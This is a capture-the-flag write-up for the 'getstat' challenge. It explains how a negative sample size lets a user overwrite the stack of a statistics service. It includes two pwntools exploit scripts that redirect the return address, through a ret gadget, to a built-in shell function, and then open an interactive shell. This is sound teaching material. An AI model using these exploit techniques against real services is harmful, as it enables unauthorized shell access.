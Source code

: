 # [getstat](https://github.com/redrocket-ctf/csr-2021-tasks/tree/main/getstat)

## Challenge setup

The challenge consists of a remote (binary) service that accepts a number of
probes and calculates the average and deviation of all probes.  
The binary and docker setup of the remote server are provided with the
challenge.

```  
           _       _        _     
          | |     | |      | |    
 __ _  ___| |_ ___| |_ __ _| |_  
/ _` |/ _ \ __/ __| __/ _` | __|  
| (_| |  __/ |_\__ \ || (_| | |_   
\__, |\___|\__|___/\__\__,_|\__|  
 __/ |                            
|___/  
  
Bitte Größe der Stichprobe eingeben: 2  
Bitte Wert eingeben: 1  
Bitte Wert eingeben: 2  
Arithmetisches Mittel: 1.5000000  
Korrigierte Stichprobenvarianz: 0.500000  
```

## First look:

- You can enter negative sizes and you still get prompted for input  
- You can abort the program by entering somthing that can't be parsed as a float  
- When you enter something like `-1` for size, enter enough data points and then abort, you receive  
  ```  
  *** stack smashing detected ***: terminated  
  Aborted (core dumped)  
  ```  
- The values seem to be allocated on the stack!

It should be possible to overwrite the return address and then abort the
program to jump to arbitrary addresses.

Tasks:  
- Figure out offset of stack pointer  
- Figure out where we should jump to

For this, we disassembled the provided binary using ghidra.  
There, we tried to understand the code by renaming some labels and found out
that the binary contains a shell function at address `0x401360` that calls
system with `sh`  
Furthermore, we noticed that the values are read as 64bit floats, so we have
to enter all addresses using floating point numbers.

The stack offset is 16byte aligned, and the return address is 88 bytes from
the input pointer, so we use size `-10` to get close to the return address,  
then write some garbage, and the target address as a float.

First exploit:  
```py  
from pwn import *  
import struct

def iToF(i):  
 b = struct.pack('q', i)  
 return struct.unpack('d', b)[0]  
  
addr = 0x401360

r = remote('challs.rumble.host', 3143)  
r.sendlineafter(b':', b'-10')  
r.sendlineafter(b':', b'0')  
r.sendlineafter(b':', bytes(str(iToF(addr)), 'utf-8'))  
r.sendlineafter(b':', b'a')  
r.interactive()  
```

This worked on my local machine, but not on the remote host.  
Thankfully, the docker setup of the challenge was also provided.  
Debugging the exploit in docker revealed that the `system('sh')` expected a
16byte stack alignment, while our stack alignment was only 8bytes.

This can be fixed by a 'ret gadget'.

Instead of jumping directly to the shell function, we first jump to another
ret instruction, which pops additional 8 bytes from the stack, fixing our
stack alignment.

The main function itself has a ret instruction at a static address, so we just
use it.

```py  
from pwn import *  
import struct

def iToF(i):  
 b = struct.pack('q', i)  
 return struct.unpack('d', b)[0]  
  
ret = 0x4013e4  
addr = 0x401360

r = remote('challs.rumble.host', 3143)  
r.sendlineafter(b':', b'-10')  
r.sendlineafter(b':', b'0')  
r.sendlineafter(b':', bytes(str(iToF(ret)), 'utf-8'))  
r.sendlineafter(b':', bytes(str(iToF(addr)), 'utf-8'))  
r.sendlineafter(b':', b'a')  
r.interactive()  
```

Now we have an interactive shell, and we can read the flag from the
filesystem.

Original writeup
(https://github.com/rnxpyke/CSR2021-writeups/blob/main/getstat.MD).